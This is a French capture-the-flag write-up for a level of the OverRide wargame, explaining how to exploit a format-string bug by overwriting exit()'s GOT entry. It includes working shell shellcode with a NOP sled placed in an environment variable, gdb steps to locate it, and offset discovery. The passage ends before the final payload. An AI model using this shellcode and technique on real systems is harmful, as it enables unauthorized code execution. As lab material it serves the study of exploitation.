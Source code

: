 > On va donc profiter de la faille de la format string.\
> On ne peut pas lancer un shellcode dans notre buffer puisqu'il est altéré par le programme.\
> On va donc choisir de réécrire sur la GOT de exit().\
> Le souci, c'est que son addresse est trop grande pour tenir dans un seul int.\
> Or, %n écrit un int et on le casse si on essaye d'écrire trop de caractères.\
> On va donc le "couper en 2" et écrire 2 small_int sur chaqune des moitiés de la GOT d'exit.

### B: Creation de l'exploit

* Il nous faut donc: le GOT d'exit, le GOT d'exit + 2, un shellcode dans l'env, son addresse et enfin: l'offset!

```shell
  # On choppe l'addresse de la GOT de exit
  level05@OverRide:/tmp$ objdump -R ~/level05
    [...]
    080497e0 R_386_JUMP_SLOT   exit
    [...]
  # GOT exit      = 080497e0
  # GOT exit + 2  = 080497e2
  
  # On crée un shellcode avec peda
    gdb-peda$ shellcode generate x86/linux exec
    # x86/linux/exec: 24 bytes
    shellcode = (
        "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31"
        "\xc9\x89\xca\x6a\x0b\x58\xcd\x80"
    )

  # On l'export dans l'env a la fin d'une grosse NOPSLED
  level05@OverRide:/tmp$ export SHELL_CODE=$(python -c 'print "\x90" * 1000 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80"')

  # On trouve son addresse
  gdb-peda$ b * main
    Breakpoint 1 at 0x8048444
  gdb-peda$ r
    [...]
  gdb-peda$ x/150s *((char **) environ)
    [...]
    0xffffdb29:	 "SHELL_CODE=\220\220\220..."
    [...]
  # On a donc le debut de la NOPSLED. Prenons 0xffffdb29 + 500 = 0xffffdd1d

  # Et maintenant l'offset
  gdb-peda$ run
    FFFF %p %p %p %p %p %p %p %p %p %p 10 %p %p %p %p %p %p %p %p %p %p 20                  v-- start_buffer
    ffff 0x64 0xf7fcfac0 0xf7ec3af9 0xffffd27f 0xffffd27e (nil) 0xffffffff 0xffffd304 (nil) 0x66666666 10 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x31207025 0x70252030 0x20702520 20
  # ... est de 10!
```
